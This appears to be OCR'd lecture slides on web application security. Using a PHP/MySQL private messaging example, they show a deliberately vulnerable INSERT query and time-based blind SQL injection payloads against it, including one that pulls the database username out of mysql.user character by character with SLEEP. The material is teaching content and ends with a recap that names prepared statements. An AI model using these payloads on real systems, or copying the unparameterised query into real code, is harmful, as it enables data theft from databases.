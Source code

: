 Private Messaging System
Create a Message table
CREATE TABLE websec.messages (	id int NOT NULL AUTO_INCREMENT,	from_id int NOT NULL,	to_id int NOT NULL,	content varchar(255),	PRIMARY KEY (id),	FOREIGN KEY (from_id) REFERENCES websec.users(id),	FOREIGN KEY (to_id) REFERENCES websec.users(id));
Insert a message
INSERT INTO websec.messages (from_id, to_id, content) VALUES (1, 2, ‘Hi Ford!’);

Private Messaging System
Select all received messages by the logged user (the “elegant” way)
SELECT	m.id AS “id”;	u1.username AS “from”,	u2.username AS “to”,	m.contentFROM	messages m	INNER JOIN users u1		ON m.from_id=u1.id	INNER JOIN users u2		ON m.to_id=u2.idWHERE m.to_id={ $_SESSION[‘id’] }		// we need start_session() in this page

Private Messaging System
Insert a message (being logged as Arthur, id is 1)
Time-based Blind Injection
Query:		INSERT INTO websec.messages (from_id, to_id, content) 				VALUES ({$_SESSION[‘id’]}, $to, ‘Hi Ford!’);
Payload: 		2
INSERT INTO websec.messages (from_id, to_id, content) VALUES (1, 2, ‘Hi Ford!’)
Displays a static message
Message sent
We’re not checking for existing users right now, hence the “static” message

Private Messaging System - EXPLOIT
Inserting a message (being logged as Arthur, id is 1)
Time-based Blind Injection
Query:		INSERT INTO websec.messages (from_id, to_id, content) 				VALUES ({$_SESSION[‘id’]}, $to, ‘Hi Ford!’);
Payload: 		SLEEP(10)
INSERT INTO websec.messages (from_id, to_id, content) 	VALUES (1, SLEEP(10), ‘Hi Ford!’)
Displays a static message
[ wait for ~10 seconds ]   <- this is how we can simulate a boolean-based blind
Message sent

Private Messaging System - EXPLOIT
Inserting a message (being logged as Arthur, id is 1)
Time-based Blind Injection
Query:		INSERT INTO websec.messages (from_id, to_id, content) 				VALUES ({$_SESSION[‘id’]}, $to, ‘Hi Ford!’);
Payload: 		IF ( ORD(MID((SELECT user FROM mysql.user LIMIT 0,1) ,1,1))>64,				SLEEP(10),				SLEEP(0) )
INSERT INTO websec.messages (from_id, to_id, content) VALUES (1, IF..., ‘Hi Ford!’)
Displays a static message
[ wait for ~10 seconds ]   <- this is how we can simulate a boolean-based blind
Message sent

Recap
Server-side attacks
SQL Injection
Stacked queries
Login Bypass
“Always True” clause
UNION Based SQL Injection
Error Based SQL Injection
Blind SQL Injection
Boolean-based Blind
Brute force
Linear Search
Binary Search
Time-based Blind
Prepared Statements
